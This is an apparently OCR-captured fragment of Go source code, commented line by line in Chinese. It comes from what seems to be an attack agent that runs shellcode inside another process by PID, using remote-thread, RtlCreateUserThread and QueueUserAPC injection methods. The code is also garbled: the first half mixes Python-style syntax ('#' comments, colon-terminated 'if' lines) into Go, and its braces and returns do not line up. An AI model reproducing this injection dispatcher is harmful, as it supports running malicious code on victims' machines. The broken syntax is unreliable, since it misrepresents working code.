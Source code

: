 ```
        # 如果设置了详细输出，打印成功信息
        if a.Verbose:
            message("success", "Shellcode was successfully executed")
    # 返回错误信息
    return err
# 如果 shellcode 的执行方式是远程的
else if shellcode.Method == "remote":
    # 执行远程 shellcode
    err := ExecuteShellcodeRemote(shellcodeBytes, shellcode.PID)
    # 如果执行出错
    if err != nil:
        # 如果设置了详细输出，打印错误信息
        if a.Verbose:
            message("warn", fmt.Sprintf("There was an error executing the shellcode: \r\n%s", shellcodeBytes))
            message("warn", fmt.Sprintf("Error: %s", err.Error()))
    # 如果执行成功
    else:
        # 如果设置了详细输出，打印成功信息
        if a.Verbose:
            message("success", "Shellcode was successfully executed")
		# 如果存在错误，直接返回错误
		return err
	# 如果 shellcode 的执行方法是 "rtlcreateuserthread"
	} else if shellcode.Method == "rtlcreateuserthread" {
		# 执行 "rtlcreateuserthread" 方法的 shellcode
		err := ExecuteShellcodeRtlCreateUserThread(shellcodeBytes, shellcode.PID)
		# 如果执行出错
		if err != nil {
			# 如果设置了详细输出，打印警告信息和错误信息
			if a.Verbose {
				message("warn", fmt.Sprintf("There was an error executing the shellcode: \r\n%s", shellcodeBytes))
				message("warn", fmt.Sprintf("Error: %s", err.Error()))
			}
		# 如果执行成功
		} else {
			# 如果设置了详细输出，打印成功信息
			if a.Verbose {
				message("success", "Shellcode was successfully executed")
			}
		}
		# 返回可能存在的错误
		return err
	# 如果 shellcode 的执行方法是 "userapc"
	} else if shellcode.Method == "userapc" {
		# 执行 "userapc" 方法的 shellcode
		err := ExecuteShellcodeQueueUserAPC(shellcodeBytes, shellcode.PID)
		# 如果执行出错
		if err != nil {
			# 如果设置了详细输出，打印警告信息和错误信息
			if a.Verbose {
				message("warn", fmt.Sprintf("There was an error executing the shellcode: \r\n%s", shellcodeBytes))
				message("warn", fmt.Sprintf("Error: %s", err.Error()))
			}
		}
	} else {
		// 如果执行失败，打印警告信息
		if a.Verbose {
			message("warn", fmt.Sprintf("Invalid shellcode execution method: %s", shellcode.Method))
		}
```
